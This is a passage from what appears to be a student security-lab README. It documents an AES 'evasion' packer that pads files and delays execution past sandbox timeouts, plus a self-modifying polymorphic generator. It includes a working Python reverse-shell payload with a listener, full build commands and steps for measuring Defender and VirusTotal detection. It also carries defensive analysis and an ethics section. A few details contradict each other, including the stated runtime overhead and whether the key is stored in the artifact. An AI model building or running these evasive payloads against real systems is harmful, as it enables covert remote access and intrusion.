Then build the executable:

```bash
python -m src.evasion \
  --encrypt simple_program.exe \
  --output evaded_program.exe \
  --add-size 101 \
  --delay 101
```

Run it:

```cmd
> evaded_program.exe
[INFO] Hidden-Bytes self-extracting runner.
[INFO] Execution delayed by 101 seconds...
[INFO] Binary decrypted successfully.
[INFO] Target program executed.
```

Two practical notes for the `.exe` build:

- **The bundled Python runtime adds fixed overhead** (roughly 9–15 MB depending on the platform and interpreter). The size target therefore has to exceed that overhead; `--add-size 101` does. If you request a size that is too small, the tool reports the minimum it needs instead of failing silently.
- **The size is exact.** The padding is appended after the packaged archive. The PyInstaller loader locates its archive with a back-to-front scan for its cookie, so trailing bytes do not affect execution. The final file is exactly `original_size + requested_size` bytes.

An output name ending in `.exe` is packaged into a native executable automatically; any other name produces the Python-archive runner.

Check what you actually produced:

```bash
python3 lab/detect_surface.py evaded_program.exe
```

This reports the real file type, the PE structure, the section entropy and the size of the high-entropy region. It reads the file only — nothing is uploaded and nothing is executed.

### 4.4 Other useful test commands

Inspect the CLI options:

```bash
python3 -m src.evasion --help
```

Create a second runner with a different delay and size increase:

```bash
python3 -m src.evasion \
  --encrypt sample.txt \
  --output sample-small.pyz \
  --add-size 0.1 \
  --delay 5
```

Inspect it:

```bash
python3 -m src.evasion --inspect sample-small.pyz
```

Recover it without waiting (for a quick test):

```bash
python3 -m src.evasion \
  --decrypt sample-small.pyz \
  --output recovered-small.txt \
  --no-delay
```

Compare the recovered content:

```bash
sha256sum sample.txt recovered-small.txt
```

Run the project's automated tests from the repository root:

```bash
python3 -m pytest -q
```

### 4.5 HBX1 container layout

The container is a custom **data format**, not a Windows PE executable.

```text
+-----------------------------------------+
| Magic: "HBX1"                 (4 bytes) |
+-----------------------------------------+
| Header length (uint32, big-endian)       |
+-----------------------------------------+
| JSON metadata                            |
| algorithm, nonce, original name/size,    |
| ciphertext length, recovery delay        |
+-----------------------------------------+
| AES-GCM ciphertext                       |
| encrypted original bytes + 16-byte tag   |
+-----------------------------------------+
| Random padding                           |
| fills remaining bytes to target size    |
+-----------------------------------------+
```
MAGIC: Identifies the file as an HBX1 container.

HEADER LENGTH: Tells the program how many bytes to read for the JSON metadata.

JSON HEADER: Contains information such as the original filename, original size, encryption algorithm, nonce, recovery delay, and ciphertext length.

CIPHERTEXT: Contains the encrypted payload.

PADDING: Additional bytes that are ignored when reading the encrypted content.

The `ciphertext_length` metadata field identifies the encrypted section's length, including the GCM authentication tag. The recovery code uses this length to avoid treating padding as ciphertext.

There is no key-derivation (`kdf`) block: each encryption uses a fresh random AES-256 key. The CLI embeds that key inside the runner artifact (next section), so no separate key file is produced.

### 4.5.1 Runner layout

The container shown above is embedded in a single self-extracting file:

```text
+-----------------------------------------+
| Launcher (Python source)                |
| - reads the embedded container          |
| - decrypts with the embedded random key |
| - waits for the stored delay            |
| - decrypts, writes to a temp dir,       |
|   launches the payload, cleans up       |
+-----------------------------------------+
| HBX1 container                           |
| magic + header + AES-GCM ciphertext     |
+-----------------------------------------+
| Random padding (stored, uncompressed)   |
| fills remaining bytes to target size    |
+-----------------------------------------+
```

The launcher and the container are kept in a zip container, with the payload stored **uncompressed** so the final file size is exactly predictable.

#### Where is each part? (and where is the `.hbx`?)

A common point of confusion: when you use the CLI, there is **no separate `.hbx` file on disk**. The runner *is* the only file you get, and the HBX1 container lives **inside** it as a zip member named `payload.hbx`. You only see it as a loose file after you `unzip` the runner (Step 6 above).

```text
demo.pyz   ← THE RUNNER   (the one file the CLI made — e.g. 20,984 bytes on disk)
│
│  it is a zip, so inside it are three members:
├── __main__.py   (11,312 b)  ← the launcher: run-time code + embedded key + AES
├── payload.hbx   (   178 b)  ← THE CONTAINER: the HBX1 encrypted blob
└── padding.bin   (16,561 b)  ← random filler for the exact size
```

- **The runner** = `demo.pyz` — a real file in your folder. This is what you run.
- **The container** = `payload.hbx` — embedded *inside* the runner, not a loose file until you extract it. Its first bytes literally spell `HBX1` followed by the JSON header (`{"algorithm":"AES-256-GC...`). That `HBX1` magic is the container's signature.
- **A standalone `.hbx` + `.key` pair** is only produced by the internal `encrypt_file` API, which the CLI never calls — so normal `--encrypt` never leaves a bare `.hbx` behind.

Mental model: **the runner is the box you ship; the container (`payload.hbx`) is the locked parcel inside it.** `--inspect` and `--decrypt` reach into the box, pull out `payload.hbx`, and read it for you.

### 4.6 Encryption flow diagram



### 4.7 Inspection and recovery flow diagram



### 4.7.1 Runner flow diagram



### 4.8 What the tool demonstrates

- **Encryption:** the input bytes are encrypted using AES-256-GCM.
- **Authentication:** a wrong key or modified authenticated ciphertext fails authentication during recovery.
- **Size manipulation:** padding makes the final artifact reach the requested size increase, exactly.
- **Delay:** the wait is enforced **by the produced artifact** before the payload is launched, and it is also honored by `--decrypt`.
- **Integrity evidence:** matching original/recovered SHA-256 hashes demonstrates successful byte-for-byte recovery.
- **Detection testing:** the Defender and VirusTotal results are measured on the artifact in the VM (see [§3.5](#what-the-audits-detection-checks-actually-require)); report the verdict and ratio you actually observe, not an assumed number.
- **Key handling:** the random AES-256 key is embedded in the runner artifact so it can recover its payload without a passphrase or separate key file. The artifact therefore *is* the secret — anyone who can read the runner can recover the payload, so protect the artifact with access controls and do not commit it to version control.
- **Execution:** the runner launches the recovered program as a child process after the delay, prints what it is doing, and removes its temporary directory.

## 5. Tool 2 — Polymorphic generator

### 5.1 What it does

`src.polymorphic` generates a **self-modifying program** that carries an encrypted payload inside itself.

The generated program, when it runs:

1. **Rewrites its own source file**, replacing a random signature token. Its SHA-256 therefore changes on every run while its behaviour stays exactly the same.
2. **Decrypts with the embedded random key** using AES-256-GCM and verifies the payload's SHA-256 digest.
3. **Executes the payload**, forwarding its own command-line arguments to it.

The payload is supplied by the operator as a file. The generated program decrypts its payload with the `cryptography` library, which must be importable at run time (installed for the script, or bundled into the `.exe` by PyInstaller).

### 5.2 Generate a demonstration

PowerShell:

```powershell
py -m src.polymorphic `
  --generate polymorphic_demo.py `
  --payload message.py
```

Linux/macOS:

```bash
python3 -m src.polymorphic \
  --generate polymorphic_demo.py \
  --payload message.py
```

Where `message.py` is a payload file you wrote:

```python
print("Hello from the polymorphic payload")
```

A fresh random 256-bit key is generated for every build and embedded in the
generated program, so no passphrase is required at run time.

The payload must be supplied as a **file**: a payload that is executed should
be a deliberate, reviewable file rather than a string on the command line.

### 5.3 Observe the changing hash

PowerShell:

```powershell
Get-FileHash polymorphic_demo.py -Algorithm SHA256
py polymorphic_demo.py
Get-FileHash polymorphic_demo.py -Algorithm SHA256
py polymorphic_demo.py
Get-FileHash polymorphic_demo.py -Algorithm SHA256
```

Linux/macOS:

```bash
sha256sum polymorphic_demo.py
python3 polymorphic_demo.py
sha256sum polymorphic_demo.py
python3 polymorphic_demo.py
sha256sum polymorphic_demo.py
```

Expected observations:

1. The program prints the same payload output on each run.
2. It verifies the embedded payload's SHA-256 digest before executing it.
3. It rewrites the signature token stored in its own source file.
4. The file's SHA-256 hash changes after every self-modification, while the output does not.

The generated file must be writable for the self-modification step. If it is read-only, or sits in a directory where the user lacks write permission, the signature update fails and the program still runs — only the hash stays the same.

### 5.4 Generate two variants and compare them

```bash
python3 -m src.polymorphic \
  --generate variant_a.py \
  --payload message.py

python3 -m src.polymorphic \
  --generate variant_b.py \
  --payload message.py

sha256sum variant_a.py variant_b.py
```

The two files differ because each generation uses a fresh key, nonce and signature token. Running them produces the same behaviour.

### 5.5 The reverse shell payload

`lab/reverse_shell_payload.py` is the payload used for the subject's demonstration. It connects back to a listener the operator controls and hands the connection to a local shell.

```python
import os, socket, subprocess

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])
```

The three `dup2` calls point the shell's standard input, output and error at the socket, so the remote shell talks over the connection instead of the terminal.

**The target address and port are always chosen by the operator**, through `--host` and `--port`, and default to `127.0.0.1`. There is no discovery, no scanning, no persistence, no privilege escalation, no lateral movement and no evasion. The payload opens exactly one TCP connection to the address it was given.

`lab/listener.py` is the receiving end. It accepts one connection and relays it to your terminal in both directions:

```bash
python3 lab/listener.py --port 4444
```

```text
[INFO] Listening on 127.0.0.1:4444. Waiting for a connection...
[INFO] Connection received from 127.0.0.1:50568
[INFO] Type a command and press enter. Type 'exit' to finish.
```

### 5.6 End-to-end demonstration

Build the polymorphic program with the reverse shell payload:

```bash
python3 -m src.polymorphic \
  --generate polymorphic.exe \
  --payload lab/reverse_shell_payload.py
```

In a second terminal, start the listener on the address the payload will call back:

```bash
python3 lab/listener.py --port 4444
```

Then run the generated program, pointing it at the listener:

```bash
python3 polymorphic.exe --host 127.0.0.1 --port 4444
```

The client output:

```text
[INFO] Polymorphic signature updated successfully.
[INFO] Reverse shell initialized. Connecting to 127.0.0.1:4444...
[INFO] Connected. Starting shell.
```

The listener output:

```text
[INFO] Listening on 127.0.0.1:4444. Waiting for a connection...
[INFO] Connection received from 127.0.0.1:50568
[INFO] Type a command and press enter. Type 'exit' to finish.
```

Typing a command in the listener terminal now runs it in the remote shell.

> **In the Windows VM**, use the VM's host-only address instead of `127.0.0.1` so the two ends can reach each other, and keep the network adapter in **Host-Only** mode. The subject's example uses `192.168.1.100`; replace it with the address of the machine running the listener.

### 5.7 Packaging as a native executable

On Windows the audit expects a `.exe`. **An output path ending in `.exe` is packaged into a real native executable automatically** — no extra flag is needed, because a Python script renamed to `.exe` does not run on Windows and is not analysed as a program by a scanner.

```bash
python -m pip install pyinstaller
python3 -m src.polymorphic \
  --generate polymorphic.exe \
  --payload lab/reverse_shell_payload.py
```

The packaged executable contains the encrypted payload, decrypts it with the `cryptography` library (bundled by PyInstaller), and behaves identically to the script.

**Self-modification is demonstrated with the script form.** A script can rewrite its own source in place on every run, so its SHA-256 changes while its behaviour stays identical — the clearest demonstration of the polymorphic property:

```bash
python3 -m src.polymorphic --generate poly.py --payload lab/reverse_shell_payload.py
sha256sum poly.py          # run it, then hash again — the digest changes each run
python3 poly.py
sha256sum poly.py          # different hash, same behaviour
```

A running packaged `.exe` cannot rewrite itself in place (the file is locked on Windows and busy on Linux), so the `.exe` is the native packaging of the same program: it runs the reverse-shell payload, while the in-place self-modification is shown with the `.py` form above.

### 5.8 Polymorphic flow




### 5.9 What “polymorphism” means here

The demonstration shows **file-level variation**: the bytes of the program change on every run while the behaviour stays identical. That is the property a defender looks for when comparing samples of the same malware family — many different hashes, one behaviour.

The self-modification is a text substitution in the generated Python source file: each run replaces its mutation token with a fresh value and re-saves, so the file hash changes while the behaviour does not. It is not machine-code mutation; it is the honest, inspectable version of the technique. The packaged `.exe` is the native form of the same program — it runs the payload, while the in-place self-modification is demonstrated with the script.

The payload is executed as an ordinary child process with no injection, no hollowing and no concealment, and the delay, the connection and the child process are all plainly visible to behavioural monitoring.

---

## 6. End-to-end lab walkthrough

Use harmless text samples first. These commands are intended to make the behavior easy to show to an auditor.

### Exercise A — Encryption, padding, recovery, and integrity

1. Create `sample.txt` containing a short message.
2. Encrypt it into a runner `sample.pyz` with a short delay such as five seconds (`--add-size 1 --delay 5`).
3. Inspect the header with `--inspect`.
4. Record the original and runner file sizes.
5. Recover to `recovered.txt` with `--decrypt --no-delay`.
6. Compare the original and recovered SHA-256 values.
7. Flip a byte inside the runner's ciphertext region with a hex editor, attempt recovery, and record that AES-GCM authentication fails. Do not overwrite the original sample during this test.
8. Recover from the untouched runner again and verify recovery succeeds.

### Exercise A2 — Delayed self-extraction (the runner)

1. Create `simple_program.py` that prints `Hello, World!`.
2. Encrypt it into `obfuscated.pyz` with `--add-size 101 --delay 101` (runner mode, the default).
3. Record the file size and confirm the increase is exactly 101 MiB.
4. Run it with `time` and confirm the wall-clock time is at least 101 seconds, and that the payload's own output appears at the end.
5. Inspect the runner and show the `delay_seconds` metadata.
6. Show that the payload's plaintext does not appear in the artifact (`grep`).
7. Recover the payload with `--decrypt --no-delay` and compare it to the original.
8. On the Windows VM, build with a `.exe` output name to produce `evaded_program.exe` and confirm the same behaviour and the same exact size accounting.

### Exercise B — Polymorphism and stable output

1. Create a payload file `message.py` containing a short `print()`.
2. Generate `polymorphic_demo.py` from it with `--payload message.py`.
3. Record its SHA-256 hash.
4. Run it and record its output.
5. Record its hash again.
6. Run it a second time and record the hash/output.
7. Confirm that the output stays the same while the source file hash changes.
8. Generate a second variant with the same payload and compare its hash.
9. Confirm the payload text does not appear in cleartext in the generated file (`grep`).

### Exercise B2 — Reverse shell in the isolated lab

1. Confirm the lab network adapter is in **Host-Only** mode and note the address the listener will use.
2. Start the listener in one terminal: `python3 lab/listener.py --port 4444`.
3. Generate the polymorphic program with the reverse shell payload: `python3 -m src.polymorphic --generate polymorphic.exe --payload lab/reverse_shell_payload.py`.
4. Run it with the listener's address: `python3 polymorphic.exe --host <host-only-address> --port 4444`.
5. Confirm the listener reports the connection and its peer address.
6. Type `whoami` and `hostname` in the listener terminal; confirm the remote shell answers.
7. Type `exit` to close the session.
8. Record the hash of the generated program before and after the run to show the self-modification.

### Exercise C — Defensive discussion

For each exercise, document:

- What changed in the file?
- Which parts are metadata, encrypted bytes, or inert random data?
- What did the program verify?
- What evidence proves that the original file was recovered correctly?
- What should an endpoint or sandbox monitor?
- What Defender / VirusTotal result did the artifact actually produce when measured?

Base any Defender or VirusTotal claim on a recorded scan result, not on file size, encryption, or hash changes alone.

---

## 7. Technical concepts

### AES-256-GCM

AES is a symmetric cipher. “256” refers to the key size in bits. GCM is an authenticated-encryption mode: it encrypts the plaintext and produces an authentication tag. During decryption, a wrong key or modified authenticated ciphertext should cause authentication to fail rather than produce accepted plaintext.

The container stores the nonce and metadata, but not the AES key. The CLI embeds the random key inside the runner artifact so it can recover its own payload without a passphrase or separate key file.

### Random key generation

Each encryption generates a fresh 256-bit random AES key using `os.urandom`. The key is never derived from a passphrase or any user-supplied input. It is embedded in the runner artifact and is required to recover the payload.

### AES in the runner

The generated artifacts decrypt with the `cryptography` library (the same library used to encrypt at build time), so the AES-256-GCM implementation is a single, maintained, hardware-accelerated one on both sides. The `.pyz` form needs `cryptography` installed in the interpreter that runs it; the `.exe` form has it bundled by PyInstaller, so the native artifact is self-contained.

### SHA-256

SHA-256 maps input bytes to a 256-bit digest. It is useful for checking whether the original and recovered files are byte-for-byte identical. Even a small change in the generated Python source normally changes its SHA-256 digest, which is why the polymorphic demo's hash changes when its nonce changes.

### File size and random padding

The artifact is deliberately padded to a target size. Padding illustrates how file length and high-entropy data can complicate static inspection; it does not prove maliciousness or benignness. Defenders should inspect structure and behavior rather than treating a single size or entropy measurement as a verdict.

### PE structure versus HBX1

A Windows Portable Executable normally has a DOS header, PE/COFF headers, section headers, and sections. HBX1 has a different custom layout. If an input file happens to be a PE, this tool encrypts its bytes as opaque data; it does not preserve a directly executable PE image in the container.

Producing a `.exe` is a separate packaging step: the launcher and the encrypted container are bundled into a native executable by PyInstaller, an ordinary application packager. The recovered payload is still only ever launched as a normal child process.

### Reverse-shell threat model

A reverse shell has the target initiate an outbound connection and redirect the command interpreter's standard input, output and error over it. This project implements exactly that in `lab/reverse_shell_payload.py`:

```python
s.connect((host, port))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])
```

The three `dup2` calls are the give-away: a process whose standard handles all point at the same socket is not reading from a terminal. That is a strong, cheap detection signal, and it is worth naming in the audit.

For the audit, the likely evidence is:

- an outbound connection to an address that the host has no business contacting;
- a command interpreter whose parent is a program that should not launch one;
- standard-handle redirection onto a socket;
- the process tree showing a chain of unusual parent/child relationships.

The key defensive point is that **a reverse shell is visible on the network even when the file is invisible**. The file may be encrypted, padded, polymorphic and new every time — and the connection still shows up in egress logs, proxy logs and network telemetry. That is precisely why the encryption and polymorphism in this project do not amount to evasion.

---

## 8. Diagrams

### Overall project map



### What changes and what stays the same?

| Demonstration | Changes | Stays the same / verified |
|---|---|---|
| HBX1 encryption | Output representation, size, metadata, ciphertext and padding | Correct recovery reproduces the original bytes |
| Runner execution | Wall-clock time before the payload starts | The payload's own behaviour and output are unchanged |
| Polymorphic generation | Fresh key, nonce and signature token, whole-file hash | The payload behaviour and the decryption logic |
| Polymorphic execution | The signature token in the source, and therefore the file hash | The payload behaviour and the decryption logic |

---

## 9. Audit checklist and evidence

Use this checklist during the audit. Mark an item only after collecting evidence.

- [ ] **Setup:** record Python version and installed dependencies.
- [ ] **Isolation:** capture the VM's network mode and disabled integration features.
- [ ] **Encryption:** show the generated runner artifact (`.pyz` on Linux, `.exe` on the Windows VM).
- [ ] **Container structure:** capture `--inspect` output and explain each field.
- [ ] **Size:** record the original and final byte lengths and verify the configured increase is exact.
- [ ] **Delay:** demonstrate a non-zero delay **in the produced artifact** (runner mode), and time it.
- [ ] **Recovery:** compare original and recovered SHA-256 hashes.
- [ ] **Integrity failure:** record that recovery with an incorrect key or tampered ciphertext fails authentication.
- [ ] **Key protection:** explain that the runner's embedded key is required for recovery, so the artifact itself is the secret and must be protected with access controls.
- [ ] **Polymorphism:** show that two independently generated variants have different hashes.
- [ ] **Self-modification:** show a generated program's hash before and after execution.
- [ ] **Stable output:** preserve output from multiple runs and show that the message stays the same.
- [ ] **Reverse shell:** with the listener running, show the connection being accepted, the peer address, and a command executed on the far side.
- [ ] **Safety review:** confirm the reverse shell reaches only the operator-chosen address, and that there is no persistence, no scanning and no evasion in the demonstration.
- [ ] **VM isolation:** run `lab/vm_preflight.ps1` in the VM and save the output as evidence.
- [ ] **Detection surface:** run `lab/detect_surface.py` on the artifact and save the report.
- [ ] **Defender:** run `lab/defender_scan.ps1` and record the verdict exactly as observed.
- [ ] **VirusTotal:** run `lab/vt_check.py` on your own artifact and record the measured ratio.
- [ ] **Limitations:** report the measured detection result, not a claim. Identify what the result depends on.
- [ ] **Evidence handling:** store logs/screenshots and test hashes without exposing key contents.

### Suggested evidence directory

```text
audit/
├── environment.txt
├── vm-isolation.png
├── evasion-inspect.json
├── runner-inspect.json
├── size-results.txt
├── runner-timing.txt
├── recovery-hashes.txt
├── wrong-key-test.txt
├── polymorphic-hashes.txt
├── polymorphic-output.txt
└── limitations-and-findings.md
```

These are suggested evidence filenames; the tools do not automatically create this directory or capture screenshots.

### Automated tests

Run the repository's tests from its root:

```bash
python3 -m pytest -q
```

On Windows:

```powershell
py -m pytest -q
```

A passing test suite is useful evidence but does not replace the manual isolation check or the demonstrations above. If no test file covers a requirement, report that gap instead of assuming it was tested.

---

## 10. Defensive analysis

The project illustrates patterns that defenders can investigate, but no single indicator is a reliable verdict.

- **Large overlays / unusual file length:** compare file size with declared executable sections and investigate unexpected appended data. A file whose size is a suspiciously round number larger than its content is worth a look.
- **High entropy:** encrypted or compressed data often has high entropy, but high entropy alone does not prove malware.
- **Unexpected delay:** monitor long sleeps and consider longer or time-accelerated sandbox observation windows. This project demonstrates exactly why a sandbox with a short timeout can miss a delayed payload: the runner sits idle for the configured delay and then starts a child process. A sandbox that times out at 60 seconds would never observe the 101-second launch.
- **Child process spawned after an idle period:** the runner writes a file into a temporary directory and starts it. EDR process-creation telemetry with a parent-child relationship and a delayed start is a direct signal here.
- **Temporary directory churn:** a self-extracting runner creates, populates, and deletes a temporary directory in a short window. That create-write-execute-delete sequence is visible to filesystem monitoring even when the file contents are never on disk in the clear.
- **A launcher that does not match its own extension:** a Python zipapp renamed to `.exe`, or a PyInstaller bundle whose content is mostly padding, will not match what a file-type detector expects. Note that this is a *detection opportunity for defenders*, not a technique for evading them.
- **Changing hashes:** exact hashes identify exact byte sequences; inert changes can produce a new hash without changing visible behavior. Combine hashes with normalized/fuzzy similarity, signing status, code structure, process behavior, memory observations, and network telemetry.
- **Unexpected network activity:** monitor outbound connections from applications that do not normally need them, especially when combined with suspicious child processes or command interpreters.
- **Key handling:** the key is embedded in the runner artifact, so the artifact itself is the secret. Protect it with access controls; never commit runners to source control or include their contents in audit screenshots.

Recommended controls include application control/allowlisting, least privilege, egress filtering, endpoint detection and response, protected logging, rapid patching, and isolated analysis environments.

---

## 11. Limitations and known caveats

1. **Detection results are measured, not engineered:** the tool encrypts, pads and packages the artifact, but it implements no dedicated anti-AV trick. The Defender and VirusTotal outcome depends on what a scanner sees in the artifact and must be measured in the VM — report the number you observe.
2. **The runner launches the payload, it does not disguise it:** the recovered program is started as a child process of the runner. There is no process hollowing or injection, and the delay is announced on stdout.
3. **The reverse shell is a lab payload:** it reaches exactly one address, chosen on the command line, with no persistence, privilege escalation, lateral movement or target discovery. It is a teaching artifact.
4. **Not a native PE polymorpher:** the self-modification is a text substitution in a Python source file, and the `.exe` output is a PyInstaller bundle. Neither is machine-code mutation.
5. **The self-modification needs a writable file:** if the generated program is read-only, the signature update fails and the hash stops changing. The program still runs.
6. **Key protection is the user's responsibility:** the random AES-256 key is embedded in the runner artifact. Protect the runner with access controls; anyone who can read it can recover the payload.
7. **The `.exe` output has a fixed runtime overhead:** the bundled Python interpreter and the `cryptography` library add roughly 14–20 MB, so the requested size increase must exceed that. The tool reports the minimum required size instead of failing silently.
8. **Manual isolation verification:** source code and README instructions cannot prove the VM is isolated.
9. **Audit results must be measured:** do not claim a detection percentage or a pass without recorded, reproducible evidence.
10. **Building a `.exe` needs PyInstaller:** it requires `python -m pip install pyinstaller` inside the isolated VM. The `.pyz` form needs only a Python interpreter with `cryptography` installed.

---

## 12. Ethics and lab safety

Binary encryption, file mutation, self-modification and reverse shells are dual-use. Test only in a written, authorized scope with owned samples and an isolated environment. Keep snapshots, use harmless payloads, restrict the reverse shell to a lab address you control, and restore the VM after the exercise.

Do not disable endpoint protection outside the lab, deploy these payloads on systems you do not control, upload confidential third-party binaries to public multi-scanner services, or point the reverse shell at a machine you do not own or have written permission to test. Report findings honestly and preserve the evidence needed for another reviewer to reproduce the results.

### Questions to prepare for the stakeholder / auditor

- What is the HBX1 format and how is it parsed?
- Why is AES-GCM used, and what happens if the key or ciphertext is wrong?
- Why must a GCM nonce not be reused with the same key?
- How is the final artifact size calculated, and is the increase exact?
- At what stage is the delay enforced, and who enforces it — the tool or the artifact?
- How does the runner protect its key if the key is not stored in the artifact?
- Why does the runner decrypt with the `cryptography` library, and how does the `.exe` carry it?
- What changes in a polymorphic run, and what remains stable?
- Why can a whole-file hash change without a meaningful change in behavior?
- How does a reverse shell work, and what does it look like to a defender?
- Why does encrypting and randomising a file not stop the connection from being seen?
- What Defender and VirusTotal results did the artifact produce, and what drives them?
- What evidence supports each audit claim?
